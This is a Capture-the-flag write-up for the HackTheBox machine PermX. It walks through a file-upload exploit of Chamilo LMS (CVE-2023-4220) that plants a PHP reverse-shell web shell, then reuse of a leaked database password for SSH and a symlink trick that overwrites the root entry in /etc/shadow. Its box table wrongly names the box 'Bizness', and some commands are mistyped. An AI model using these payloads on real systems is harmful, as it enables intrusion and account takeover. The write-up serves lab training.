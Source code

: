 ```yaml
---
title:  HTB - PermX
date: 2023-06-07 12:17:34 -0400
categories: [hackthebox , PermX]
tags: [HackTheBox,Chamilo LMS,CVE-2023-4220,mysql,symlink,curl ]
image:
  path: /assets/img/post/permx/permx.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hack the Box - PermX.
---
```


## Box Info

| Name                  | Bizness          | 
| :-------------------- | ---------------: |
| Release Date          | 20 Jun, 2024     |
| OS                    | Linux            |
| Rated Difficulty      | Easy             |

## Enumeration

### Nmap

![Image](/assets/img/post/permx/image.png)

#### whatweb:

![Image](/assets/img/post/permx/2.png)

#### Wappalyzer

![Image](/assets/img/post/permx/4.png)

### Web

![Image](/assets/img/post/permx/3.png)

#### Brute Forcing directory

I use

```bash
dirsearch -u http://permx.htb/
```

 but i dont find anything interesting, So i use the Scan for Subdomain

#### SubDomain

```bash
wfuzz -c -w /usr/share/wordlists/amass/subdomains-top1mil-5000.txt --hc 400,403,404,302 -H "Host: FUZZ.permx.htb" -u http://permx.htb -t 100
```

![Image](/assets/img/post/permx/5.png)

Search for chamilo in google.

### Chamilo LMS - CVE-2023-4220

![Image](/assets/img/post/permx/6.png)

RCE:
```bash
echo '<?php system("bash -c 'bash -i >& /dev/tcp/10.10.10.13/9001 0>&'"); ?>' > rce.php
```

```bash
curl -F 'bigUploadFile=@rce.php' 'http://<chamilo>/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
`The file has successfully been uploaded.`
```

```bash
curl 'http://<chamilo>/main/inc/lib/javascript/bigupload/files/rce.php'
`uid=33(www-data) gid=33(www-data) groups=33(www-data)`
```

![Image](/assets/img/post/permx/7.png)

We go to open the file through web.

![Image](/assets/img/post/permx/8.png)

Execute the file .php `http://lms.permx.htb//main/inc/lib/javascript/bigupload/files/rce.php` with `lvwrap nc -lvnp 7777` listening for get the reverse shell

![Image](/assets/img/post/permx/9.png)

taadaaa... Well, we login as `www-data` and we go to enumerate... 
I found in config folder a file `configuration.php` and show it us a user and password.

Till now we have one user:`chamilo` and password:`03f6lY3uXAP2...`.

![Image](/assets/img/post/permx/10.png)

`netstat -nlp` or `netstat -ano` and we see one port strange and is port 3306 it is open for the database.

![Image](/assets/img/post/permx/11.png)

Use the mysql inside in the victim machine.

```bash
mysql -uchamilo -p and the password 03F6lY3uXAP2bkW8
```
![Image](/assets/img/post/permx/12.png)

```text
show databases;
use chamilo;
describe user;
select user_id,username,firstname,lastname,password,salt from user;
```

![Image](/assets/img/post/permx/13.png)

We login with ssh `mtz@permx.htb` and password `03F6lY3uXAP2bkW8`

![Image](/assets/img/post/permx/14.png)

`sudo -l`

![Image](/assets/img/post/permx/15.png)

## Symlink (Symbolic Link Attack)

The directory `/etc/init.d`{: .filepath} is home to **scripts** for System V init (SysVinit), the **classic Linux service management system**. It includes scripts to `start`, `stop`, `restart`, and sometimes `reload` services. These can be executed directly or through symbolic links found in `/etc/rc?.d/`{: .filepath}. An alternative path in Redhat systems is `/etc/rc.d/init.d`{: .filepath}.

Its main function is to change all file permissions, but it must be in the `/home/mtz` directory.

![Image](/assets/img/post/permx/16.png)

[Symlink Español](https://www.freecodecamp.org/espanol/news/tutorial-de-enlace-simbolico-en-linux-como-crear-y-remover-un-enlace-simbolico/)
[Symlink Hacktricks](https://book.hacktricks.xyz/pentesting-web/file-upload#symlink)

```bash
link soft / to cc
ln -s / cc
```

Create a folder that points to the root path with Symlink with the -s (soft) option to locate ourselves inside it and make changes to `/etc/shadow`{: .filepath} (root password) with a password that we create ourselves (cccc).

![Image](/assets/img/post/permx/17.png)

The `/etc/shadow`{: .filepath} storage the password of root

```bash
sudo /opt/acl.sh mtz rwx /home/mtz/etc/shadow (execute the script for change the permissions)
```

![Image](/assets/img/post/permx/18.png)

Generated a password for remplace the root password in `/etc/shadow`{: .filepath}

```bash
openssl passwd -6 cccc
```

![Image](/assets/img/post/permx/19.png)

and copy and paste en the file `"shadow"`

```bash
echo 'root: {password generate}:19871:0:99999:7:::' > /home/mtz/cc/etc/shadow
```
Login as root with password cccc

![Image](/assets/img/post/permx/20.png)

`Root`